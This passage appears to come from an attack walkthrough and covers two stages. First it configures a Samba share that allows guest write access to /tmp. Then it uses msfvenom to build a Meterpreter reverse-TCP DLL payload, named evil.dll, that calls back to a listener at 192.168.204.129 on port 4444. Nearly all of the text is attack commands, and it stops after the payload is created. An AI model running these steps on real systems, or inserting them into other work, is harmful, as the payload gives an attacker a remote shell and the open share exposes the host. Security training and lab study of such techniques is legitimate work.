 **Backup and Configure Samba**
```bash
cp /etc/samba/smb.conf /etc/samba/smb.conf.bak
rm /etc/samba/smb.conf
sudo nano /etc/samba/smb.conf
```
```bash
[global]
    map to guest = Bad User
    server role = standalone server
    usershare allow guests = yes
    idmap config * : backend = tdb
    smb ports = 445

[public]
    comment = Samba
    path = /tmp/
    guest ok = yes
    read only = no
    browsable = yes
    force user = smbuser
```
![smb configuration](images/smb_configuration.png)


**Craft Payload**
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.204.129 LPORT=4444 -f dll -o evil.dll
```
![Creating payload](images/payload_creation.png)
